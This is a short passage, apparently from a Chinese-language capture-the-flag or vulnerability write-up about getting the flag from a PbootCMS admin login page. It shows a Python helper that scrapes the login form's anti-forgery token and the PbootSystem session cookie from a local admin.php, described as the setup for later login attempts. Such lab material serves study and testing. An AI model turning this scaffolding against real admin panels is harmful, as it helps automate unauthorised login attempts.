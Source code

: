 二、拿 Flag

检查登录页：

![cookie_122](../img/cookie_122.png)

![html_123](../img/html_123.png)

1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def GetFormCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```
